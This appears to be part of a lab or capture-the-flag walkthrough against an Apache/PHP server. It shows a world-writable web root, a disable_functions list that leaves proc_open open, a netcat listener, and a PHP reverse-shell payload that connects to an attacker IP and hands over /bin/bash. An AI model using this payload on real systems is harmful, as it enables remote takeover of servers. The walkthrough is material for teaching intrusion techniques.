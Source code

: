 ```html
                Document Roots
        </div>

        <div class="content_section_text">
            <p>
                By default, Debian does not allow access through the web browser to
                <em>any</em> file apart of those located in <tt>/var/www</tt>,
                <a href="http://httpd.apache.org/docs/2.4/mod/mod_userdir.html" rel="nofollow">public_html</a>
                directories (when enabled) and <tt>/usr/share</tt> (for web
                applications). If your site is using a web document root
                located elsewhere (such as in <tt>/srv</tt>) you may need to whitelist your
                document root directory in <tt>/etc/apache2/apache2.conf</tt>.
            </p>
            <p>
                The default Debian document root is <tt>/var/www/html</tt>. You
                can make your own virtual hosts under /var/www. This is different
                to previous releases which provides better security out of the box.
            </p>
        </div>

[...]

  </body>
</html>
```

`ls -ld ./`:
```
drwxrwxrwx 2 www-data www-data 4096 Feb 11  2023 /var/www/html ←
```

`cat /etc/php/7.4/apache2/php.ini | grep 'disable_functions'`:
```
disable_functions = pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,pcntl_unshare, ←
```

`nc -lnvp 4444 > ./revsh.php`:
```
listening on [any] 4444 ... ←
```

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`echo '<?php $sock = fsockopen("192.168.56.118", 5555); $proc = proc_open("/bin/bash", array(0 => $sock, 1 => $sock, 2 => $sock), $pipes); ?>' | tee ./revsh.php`:
```
<?php $sock = fsockopen("192.168.56.118", 5555); $proc = proc_open("/bin/bash", array(0 => $sock, 1 => $sock, 2 => $sock), $pipes); ?>
```
